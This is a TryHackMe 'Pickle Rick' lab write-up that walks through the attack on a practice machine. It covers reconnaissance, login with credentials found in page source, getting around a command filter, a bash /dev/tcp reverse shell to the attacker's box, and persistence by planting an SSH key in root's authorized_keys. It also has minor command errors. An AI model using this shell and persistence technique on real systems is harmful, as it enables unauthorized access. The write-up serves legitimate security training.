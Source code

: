 # TryHackMe Pickle Rick Write-up

This is a walkthrough of my process completing the Pickle Rick room on TryHackMe.com. I will be using the attack box provided by TryHackMe in this case which utilizes the root user, however, this is not the best practice. It is always recommended you perform commands with the least privilege possible. Because I also managed to break the machine (*several times*) I will wildcard the last 2 octets of the IP address.

---

# Planning and Reconnaissance
*In this room, we are roleplaying as Morty from the hit TV show, "Rick and Morty".* Defining our scope: Rick has turned into a pickle and needs 3 ingredients for a potion to turn back into a human. Unfortunately, these ingredients are hidden on his computer, and Pickle Rick has forgotten his password. Our task is to retrieve his password, access his data, and locate the 3 separate files containing the 3 ingredients. Pickle Rick provided us with the target machine's IP address, 10.10.*.*.

# Scanning and Enumeration
We begin with NMap. Using the command "nmap -Pn -vvv 10.10.*.*" stealthily scans the first 1000 most common ports that might be active on a machine. This scan reveals ports 22 (**SSH**) and 80 (**HTTP**) are open, and likely running these services. 

![image](https://github.com/user-attachments/assets/40b3f0f6-f221-4b2e-9318-2dd3b9c80a5f)


Attempting the command "ssh rick@10.10.*.*" reveals password login via SSH is disabled, requiring a key. 

![image](https://github.com/user-attachments/assets/be74ac94-6fc0-43d7-b8e0-e32dd57a5d16)


Let's check if there is a website associated with that IP address, "HTTP://10.10.*.*"...

![image](https://github.com/user-attachments/assets/b3b64b84-130f-4f51-9410-44f043c5565b)

There is!

Now let's quickly investigate the website's HTML using the shortcut "CTRL + SHFT + I".

![image](https://github.com/user-attachments/assets/5b40a88a-60b9-42ea-b37e-d6e130caa739)

In the body of the HTML, we can see Rick left his username, R1ckRul3s. 

Reviewing the directories of the webpage, we can see there are some files. 

![image](https://github.com/user-attachments/assets/cd8034c7-379f-440b-8c80-8cab2175792f)


Visiting the "/assets*" directory reveals some more files and that the website is using Apache.

![image](https://github.com/user-attachments/assets/629ee3f1-ac20-44e8-84e1-1569dc7aa318)


However, only one in particular may have some relevance, that being a portal. Attempting to access "HTTP://10.10.*.*/portal", unfortunately, doesn't reveal anything so let's dig deeper.

![image](https://github.com/user-attachments/assets/adfdddff-82b6-4ae3-8626-6fdc030df218)

Using GoBuster to fuzz "*gobuster dir -u http://10.10.*.* -w /usr/share/wordlists/SecLists/Fuzzing/fuzz-Bo0oM.txt*" has revealed there are "login.php" and "robots.txt" pages, also indicating the webpage itself is using PHP.

![image](https://github.com/user-attachments/assets/9ed5f817-30f7-4ac6-964f-be8f0acd7f21)
![image](https://github.com/user-attachments/assets/8e8c7793-ba88-4f7a-aff6-9369ff0dae83)

Visiting the page "HTTP://10.10.*.*/robots.txt" reveals an odd string, "Wubbalubbadubdub", possibly the password.

![image](https://github.com/user-attachments/assets/466cd2ea-2b57-4e15-917c-c7aa4416f0e6)


# Gaining Access

Now, let's try some good ol' credential stuffing... Success!

image


Now that we have access, let's see what else we can find. 

Unfortunately, it seems these other tabs don't lead anywhere. 

![image](https://github.com/user-attachments/assets/3bfd5477-2ba7-42b1-899d-06cd92640840)

Let's check the HTML of this page.

![image](https://github.com/user-attachments/assets/769d5483-3fc3-45ee-98b9-f4098165087f)

This reveals an encoded string, "Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==". Let's see if we can decode this using the command "echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | base64 -d".

![image](https://github.com/user-attachments/assets/9743543c-8ff8-4af5-a7a4-6b0be367ef21)

Unfortunately, it seems this was just an elaborate rabbit hole set up by Rick.

Let's try the command field. Running "uid" reveals we are logged in as "www-data", and not Rick which might explain why we can't view the other pages.

![image](https://github.com/user-attachments/assets/e1ece65a-3b8d-43b8-a56a-236476666200)

Let's check our permissions with "sudo -l".

![image](https://github.com/user-attachments/assets/c8572de5-65dc-406b-a52f-b719f80fa08d)

It appears we have access to all commands via sudo.

Let's check our current directory and what's in it.

![image](https://github.com/user-attachments/assets/d9a1a960-352f-4ef2-954e-6add073fd061)

![image](https://github.com/user-attachments/assets/b12ddf11-bf13-47e7-9e60-e55eb0b373c0)

There is the first ingredient, and a clue!

Unfortunately, it seems some commands like "locate", "tail", "head", and "cat" are prohibited even with "sudo", however, it seems this is a function of this webpage and not a lack of permissions. Let's see if we can bypass this by using some other commands.

![image](https://github.com/user-attachments/assets/13cb09ec-8907-4964-b9c4-fd6d0210f1af)

"find", "less", "strings", and "grep" as does "sudo /../../*" work. Visiting the specific directory in the website also works.

![image](https://github.com/user-attachments/assets/7a2a8260-3cb5-4add-9838-6bef308deeaf)

![image](https://github.com/user-attachments/assets/476fe758-7486-426e-9931-704c59536b7a)

Now that we can read the first ingredient, let's find the other two using "".

image

There are the last two!

image
image

And poof, just like that Rick is back to normal!

# Maintaining Access

However, because we are Evil Morty and we want to be able to access Rick's data in the future, let's see if we can create a [reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). We start by listening with "netcat", "nc -nlvp 8080". 

![image](https://github.com/user-attachments/assets/48a91638-d2a3-497f-bfe1-e029b65c7ffa)

Running the command "bash -i >& /dev/tcp/10.0.*.*/8080 0>&1" within the command filed does not work, however, when encapsulating first with "bash -c ''", it does work, "bash -c 'bash -i >& /dev/tcp/10.0.*.*/8080 0>&1'". 

![image](https://github.com/user-attachments/assets/d937e39d-0540-4ebc-84b8-5e9073a0218f)

Let's see if we can become root...

![image](https://github.com/user-attachments/assets/a8fb6697-4e48-4b93-a4d8-4a97b0e08075)

Success!

With this, we can simply generate a RSA key pair using "sshkeygen rsa"; 
Copy our public key;
And execute the following command within the shell. "sudo echo key >> /root/.ssh/authorized_keys && sudo echo key >> /home/ubuntu/.ssh/authorized_keys", 
Now let's test SSH login.

![image](https://github.com/user-attachments/assets/d234846e-61b2-46d1-8629-99ce7f20192d)

![image](https://github.com/user-attachments/assets/817cb8f7-4043-46e8-810a-5631e40ed260)

Success!

# Reporting

While SSH password login was disabled, this should be a reminder for Rick that security through obscurity can't work on it's own. There should always be other security measures in place. 

For improved security, we recommend Rick begin storing his username and password in an offline encrypted password manager, like KeePassXC, instead of the HTML and robots.txt files of his site. Additionally, Rick should separate the users, permissions, and access within his machine, as well as, disable root login via SSH.

---

# That's all folks!
